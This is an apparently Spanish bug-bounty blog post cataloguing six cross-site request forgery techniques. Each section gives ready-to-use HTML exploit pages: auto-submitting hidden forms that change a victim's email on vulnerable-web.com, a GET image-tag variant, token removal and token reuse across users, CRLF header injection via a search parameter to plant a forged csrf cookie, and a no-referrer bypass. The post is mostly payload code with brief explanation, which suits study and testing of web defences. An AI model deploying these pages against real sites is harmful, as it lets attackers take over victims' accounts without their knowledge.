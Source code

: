 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques CSRF y distintas formas de implementarlo.

# Table of Contents
1. [Vulnerabilidad CSRF sin defensas](#CSRFsinDefensas)
2. [Validación token depende método solicitud](#CSRFenGET)
3. [Validación token depende presencia token](#CSRFenPresencia)
4. [El token CSRF no está vinculado a la sesión del usuario](#CSRFnoVinculado)<br>
   4.1. [Mismo token entre usuarios](#MismoTokenUsuarios)<br>
   4.2. [Token no vinculado a la sesion](#SesionTokenNoVinculado)
6. [El token se duplica en la cookie](#TokenDuplicaCooki)
5. [CSRF sin Referrer](#CSRFsinReferrere)


---

### 1- Vulnerabilidad CSRF sin defensas <a name="CSRFsinDefensas"></a>
**CSRF basico correo**<br>
Hace una peticion a la pagina en la ruta donde se cambia el correo y con el javascript confirma la peticion, lo cual se cambiará el correo con solo visitar la pagina.

Codigo de https://atacante.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 2- CSRF donde la validación del token depende del método de solicitud <a name="CSRFenGET"></a>
Dependiendo del metodo de peticion, se puede hacer con GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@evil-user.net"/>
```
---
### 3- CSRF donde la validación del token depende de la presencia del token <a name="CSRFenPresencia"></a>
No verifica el token CSRF, se eliminia y se bypassea

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 4- El token CSRF no está vinculado a la sesión del usuario <a name="CSRFnoVinculado"></a>
**4.1- Usar el mismo token en ambos usuarios**<br>
Podemos usar el mismo Token CSRF en un usuario que en otro al no estar vinculado a la sesión del usuario** <a name="MismoTokenUsuarios"></a>
Mi token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ sirve para otros usuario tambien.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**4.2- El token CSRF no esta vinvulado a la sesion.** <a name="SesionTokenNoVinculado"></a><br>
Por lo que se podria usar el mismo csrf token y la misma csrf key en una cuenta que en otra para cambiar el correo  
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwn&#64;ed&#46;com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com//?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### 5- El token CSRF simplemente se duplica en una cookie <a name="TokenDuplicaCookie"></a>
El token se valida en la cookie, podemos hacer que el usuario se cree su propio token csrf el cual indicamos nosotros.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Como se validaba el token en la cookie podemos mandar la peticion para el cambio de correo.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@evil-user.net">
            <input type="hidden" name="csrf" value="tokenfalsojeje">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=tokenfalsojeje" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### 6- CSRF sin Referrer <a name="CSRFsinReferrer"></a>
Indicamos que no exista el Referer en el exploit del CSRF usando el tag de meta.

```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@evil-user.net" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```
